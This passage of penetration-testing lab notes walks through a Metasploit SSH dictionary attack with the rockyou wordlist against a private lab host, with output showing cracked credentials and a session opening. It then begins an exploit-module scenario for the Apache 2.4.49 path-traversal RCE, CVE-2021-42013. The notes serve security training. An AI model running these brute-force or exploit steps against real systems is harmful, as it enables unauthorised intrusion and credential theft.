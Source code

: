 Giving mod a username: `george` and password list `rockyou.txt`

Final options

```hlt:1,4,7,10
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME george
USERNAME => george

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.50.201
RHOSTS => 192.168.50.201

msf6 auxiliary(scanner/ssh/ssh_login) > set RPORT 2222
RPORT => 2222
```

Execute dictionary attack (it worked)

```
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

```hlt:george:chocolate
[+] 192.168.50.201:2222 - Success: 'george:chocolate' 'uid=1001(george) gid=1001(george) groups=1001(george) Linux brute 5.15.0-37-generic #39-Ubuntu SMP Wed Jun 1 19:16:45 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
```

Metasploit also automatically begins session with target

Display valid creds gathered

```hlt:creds
msf6 auxiliary(scanner/ssh/ssh_login) > creds
Credentials
===========

host            origin          service       public  private    realm  private_type  JtR Format
----            ------          -------       ------  -------    -----  ------------  ----------
192.168.50.201  192.168.50.201  2222/tcp (ssh)  george  chocolate  
```


### Exploit Modules 

#### Scenario
Exploiting _CVE-2021-42013_ on Apache 2.4.49

Create new workspace 

```
msf6 auxiliary(scanner/ssh/ssh_login) > workspace -a exploits
```

Search for Apache 2.4.49 modules 

```hlt:1,8
msf6 auxiliary(scanner/ssh/ssh_login) > search Apache 2.4.49

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
```
